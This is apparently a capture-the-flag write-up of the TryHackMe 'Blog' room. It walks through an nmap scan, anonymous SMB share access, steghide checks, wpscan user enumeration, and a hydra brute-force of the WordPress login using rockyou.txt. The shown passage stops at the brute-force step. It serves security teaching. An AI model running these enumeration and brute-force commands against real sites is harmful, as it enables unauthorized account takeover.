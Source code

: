 ```yaml
---
description: Billy Joel made a Wordpress blog! - by  Nameless0ne
icon: browser
---
```


# Blog

***

Platform : [Tryhackme](https://tryhackme.com/room/blog)

Difficulty: Medium

Machine Type: Linux

***

### Scanning and Enumeration

Nmap scan results:

```
┌──(ghost㉿kali)-[~/tryhackme/blog]
└─$ sudo nmap -Pn -A -p- --min-rate 3000 blog.thm -oN nmap.full
[sudo] password for ghost: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-29 23:33 EDT
Nmap scan report for 10.201.71.207
Host is up (0.21s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
|_http-generator: WordPress 5.0
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-server-header: Apache/2.4.29 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 5 hops
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2025-08-30T03:34:18+00:00
| smb2-time: 
|   date: 2025-08-30T03:34:18
|_  start_date: N/A
|_nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

```

As we can see port 22(ssh), 80(http), 139(netbios-ssn) and port 445(smb) is open.

Nmap scan also revealed, there is some kind of WordPress(5.0) site with title 'Billy Joel's IT Blog' is hosted on port 80. But first of all we can check for shares present and accessible to us via smb port 445.

At first, I listed all shares of the target machine via smbclient.

```
┌──(ghost㉿kali)-[~/tryhackme/blog]
└─$ smbclient -L '/10.201.71.207' -U ''
```

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

From all those 3 shares, 'billySMB' look's a little bit suspicious and so I connected to it and downloaded

all files that were hosted there.

```
┌──(ghost㉿kali)-[~/tryhackme/blog]
└─$ smbclient '//10.201.71.207/BillySMB' -U ''
```

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

Checked all those 3 files one by one:

<details>

<summary>Alice-White-Rabbit.jpg</summary>

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

I tried to extract file with steghide, if any present hidden inside that image.

```
┌──(ghost㉿kali)-[~/tryhackme/blog]
└─$ steghide extract -sf Alice-White-Rabbit.jpg
```

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

Yeah, there was a file hidden inside that image, but it's content shows that I am in a rabbit hole.

Nothing interesting here.

</details>

<details>

<summary>tswift.mp4</summary>

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

Just a mp4 video file of taylor swift song and with no hints. Again a rabbit hole.

</details>

<details>

<summary>check-this.png</summary>

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

When I scanned this QR with my phone, I got redirected to a song by billy joel. Again a rabbit hole, nothing of our interest.

</details>

Looking at all those files showed, SMB port was just a rabbit hole and nothing of our interest here, not even a hint.

Next I moved on to port 80, where a blog website hosted using WordPress CMS.

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

Login page was also present on `http://blog.thm/wp-login.php`

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

As this website was built using WordPress, I instantly enumerated it using wpscan for usernames, vulnerable plugins, vulnerable themes etc.

```
┌──(ghost㉿kali)-[~/tryhackme/blog]
└─$ wpscan --url "blog.thm" -e u, vp, vt --no-update
```

And I got 2 valid usernames - <mark style="color:yellow;">kwheel</mark> and <mark style="color:yellow;">bjoel</mark>

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

For confirmation, I also checked them on login page by entering random password for them.&#x20;

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Error: The password you entered for the username kwheel is incorrect. Lost your password?
{% endhint %}

Which means username kwheel is valid.

Next, I brute forced the password for kwheel user using hydra and found a valid password.

```
┌──(ghost㉿kali)-[~/tryhackme/blog]
└─$ hydra -l kwheel -P /usr/share/wordlists/rockyou.txt blog.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" 
```

<figure><img src="../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>


